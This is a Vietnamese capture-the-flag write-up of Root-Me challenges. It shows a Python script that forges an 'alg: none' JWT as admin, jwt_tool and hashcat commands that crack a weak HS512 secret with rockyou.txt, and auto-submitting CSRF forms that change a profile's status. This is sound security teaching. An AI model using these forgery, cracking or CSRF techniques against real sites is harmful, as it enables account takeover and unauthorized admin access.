 # Trần Mạnh Huy - JWT - json web token
<hr>
# Table of content 

* [Chall 1: JSON Web Token (JWT) - Introduction](#chall-1-json-web-token-jwt---introduction)
* [Chall 2: JSON Web Token (JWT) - Weak secret](#chall-2-json-web-token-jwt---weak-secret)
* [Chall 3: JSON Web Token (JWT) - Public key](#chall-4-json-web-token-jwt---public-key) 
* [Chall 4: CSRF - 0 protection](#chall-4-csrf---0-protection)
* [Chall 5: CSRF - token bypass](#chall-5-csrf---token-bypass)

<hr>

## Chall 1: JSON Web Token (JWT) - Introduction
```
To validate the challenge, connect as admin.
```
Ta có login form như sau 

![image](https://user-images.githubusercontent.com/104350480/219703907-2e0197cf-93da-4230-a230-164f0473c52c.png)

Để ý có nhấn vào guest thử rồi check burp:

![image](https://user-images.githubusercontent.com/104350480/219705924-bb74b020-b6d7-48b5-a735-c662ef36634e.png)

Sửa thử username = admin thì server trả về lỗi: 

![image](https://user-images.githubusercontent.com/104350480/219708136-04c02ff0-8a0f-4ce9-891f-fee65f60067a.png)



Thế thì ta chỉnh alg = none vì để none thì server sẽ kh xác thực signature nữa, ta xóa phần signature cũng được và lỗi cũng biến mất, ta được kết quả.

![image](https://user-images.githubusercontent.com/104350480/219706460-833ef24c-d343-48b9-9eff-aa7d2a16d3ae.png)

> flag: S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7

```
import base64
import json

header = {'typ':'JWT', 'alg':'none'}
payload = {'username':'admin'}
header_encoded = base64.urlsafe_b64encode(json.dumps(header).encode()).decode('utf-8').rstrip('=')
payload_encoded = base64.urlsafe_b64encode(json.dumps(payload).encode()).decode('utf-8').rstrip('=')
data = header_encoded +'.'+payload_encoded+'.'
print(data)
```

## Chall 2: JSON Web Token (JWT) - Weak secret

```
"Let's play a small game, I bet you cannot access to my super secret admin section. Make a GET request to /token and use the token you'll get to try to access /admin with a POST request."

```

![image](https://user-images.githubusercontent.com/104350480/219711939-05cb4769-bdef-4024-aea3-2e92e5ffb132.png)

Mở đường dẫn /token ta có token:

> Here is your token	"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"

![image](https://user-images.githubusercontent.com/104350480/219831488-82906321-0618-429f-a177-6ed253af0c4f.png)


Chuyển sang phương thức POST /admin, ta có: 

![image](https://user-images.githubusercontent.com/104350480/219831018-a2a1142c-255f-42ca-a9b4-9a897db12daf.png)

Thêm Authorization vào xem được gì nào: 

![image](https://user-images.githubusercontent.com/104350480/219831273-213e8862-495d-4558-b382-0bd9f36e0e7a.png)

Bài này dùng alg: HS512, thì như tên bài thì có vẻ secret key khá yếu, dùng tool để bruteforce xem sao: Ở đây ta dùng jwt_tool với list đơn giản
từ rockyou.txt

> payload: python3 jwt_tool.py --token --C -d /usr/share/wordlists/rockyou.txt 

![image](https://user-images.githubusercontent.com/104350480/219830868-0655a46b-6375-4fa5-bab8-da0cac9e3afd.png)

Oke vậy là ta có được secretkey là lol, giờ ném lên jwt.io chỉnh lại payload thành admin và thêm secretkey lol là xong: 

![image](https://user-images.githubusercontent.com/104350480/219832730-a58fad6e-e2cb-48c3-a422-c3b4d957b817.png)

> Flag: PleaseUseAStrongSecretNextTime
 
Hoặc có thể dùng cách khác để bruteforce khá đơn giản là dùng hashcat

>payload: hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlists/rockyou.txt --force

> https://hashcat.net/wiki/doku.php?id=example_hashes

![image](https://user-images.githubusercontent.com/104350480/219835386-3adb6412-afff-454e-80fa-f1b89997c6ba.png)

Ta cũng có được secretkey tương ứng là lol

![image](https://user-images.githubusercontent.com/104350480/219836351-03ba3270-2447-4a15-a901-d7d27cab47c5.png)

## Chall 4: CSRF - 0 protection

Mở vào chall là có:

![image](https://user-images.githubusercontent.com/104350480/219910186-addd360d-2a09-4472-9427-149f8b36bcea.png)

Vì là dạng csrf nên chưa khai thác được gì, ta register rồi đăng nhập vào trang thì được

![image](https://user-images.githubusercontent.com/104350480/219910295-afb165e6-3a6a-42d3-a3c1-2446afbfee15.png)

Mục tiêu bây giờ là phải xem được thông tin private, hay phải bật được status on của mình chỗ profile:

![image](https://user-images.githubusercontent.com/104350480/219911520-c7c9b76e-6368-4759-acd4-0e105050cada.png)

Ta có thể để ý status đang bị disabled, ta có thể sửa lại thành value="on", nhưng tất nhiên là không thu được gì, server trả về "You're not admin"

![image](https://user-images.githubusercontent.com/104350480/219912788-791a0026-95e1-4087-aca3-860e82f9efb1.png)

Bây giờ ta cần gửi 1 form tương tự để lừa admin kick vào link ta gửi. Lấy luôn source code từ trang và thêm link trang vào phần action:

```
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
			<div>
			<label>Username:</label>
			<input id="username" type="text" name="username" value="huy123456">
			</div>
			<br>		
			<div>
			<label>Status:</label>
			<input id="status" type="checkbox" name="status" value="on" >
			</div>
			<br>
			<input id="token" type="hidden" name="token" value="dd29a211ad5ad8b6e426dde5150648dd" />
			<button type="submit">Submit</button>
			</form>
   <script>document.getElementById("profile").submit();</script>
   
   ```
 Sửa lại form 1 chút:
 
 ```
<html>
<head>
<script>
function loadform(){document.getElementById("formcsrf").submit()}
</script>
</head>
<body onload="loadform()">
<form id="formcsrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
<label>Username:</label>
<input id="username" type="text" name="username" value="huy123456">
<br>		
<label>Status:</label>
<input type="checkbox" name="status" value="on" checked>
<br>
</form>
</body>
</html>

```



